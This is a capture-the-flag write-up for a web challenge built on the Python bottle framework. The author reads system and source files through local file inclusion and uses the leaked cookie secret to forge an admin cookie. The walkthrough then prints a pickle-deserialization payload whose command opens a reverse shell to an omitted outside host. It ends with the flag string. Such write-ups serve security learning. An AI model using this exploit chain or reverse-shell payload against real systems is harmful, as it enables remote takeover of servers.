


# wetuwn addwess

## Challenge

> Come and read poems in the bottle.<br>
> No bruteforcing is required to solve this challenge. Please do not use scanner tools. Rate limiting is applied. Flag is executable on server.

---

## Walkthrough

The challenges landing page lead us to an obvious LFI exploit at `/show?id=spring.txt`.

```
/show?id=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

`/etc/shadow` didn't work meaning the application wasn't running with superuser permission. I tried `/flag` but it wasn't going to be that easy.

Next I tried reading from `/proc/<PID>` to find more information about the process running the webserver. I found it running with a pid of 1.

```txt
/show?id=/proc/1/cmdline

python -u /app/app.py
```

Nice. Let's get the source code

```py
# /show?id=/app/app.py

# ...
from config.secret import sekai

@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"
# ...
```

You can view the full file [here](./app.py) but the focus was clearly to exploit `/sign` to get admin permission. Fortunately the secret was imported from `config.secret`.

```py
# /show?id=/app/config/secret.py

sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```

Nice. To generate the right cookie I made my own bottle server.

```py
# ...
@route("/")
def index():
    sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
    value = {"name": "admin"}
    response.set_cookie("name", value, secret=sekai)
```

Copying this cookie to bottle poem's storage got me into admin! But it was useless...



Looking into bottle's source code I noticed that we can execute a `pickle.loads()` if we had the secret. Looks promising!

```py
def get_cookie(self, key, default=None, secret=None):
    value = self.cookies.get(key)
    if secret and value:
        dec = cookie_decode(value, secret)

def cookie_decode(data, key):
    if cookie_is_encoded(data):
        sig, msg = data.split(tob('?'), 1)
        if _lscmp(sig[1:], base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())):
            return pickle.loads(base64.b64decode(msg)) # <- looks like pickle!
```

For those unaware python pickling is vulnerable to RCE on decoding as it's not meant to be used with user controlled input.

I modified my bottle server to generate an RCE exploit cookie that I could pass into bottle poem.

```py
class RCE:
    def __reduce__(self):
        # I used python since we can guarantee it's installed on the system
        cmd = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<ommited>\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
        return os.system, (cmd,)

@route("/")
def index():
    value = RCE()
    response.set_cookie("name", value, secret=sekai)
```

Sure enough I passed it into bottle poem and gg.



---

## Solve

`SEKAI{W3lcome_To_Our_Bottle}`
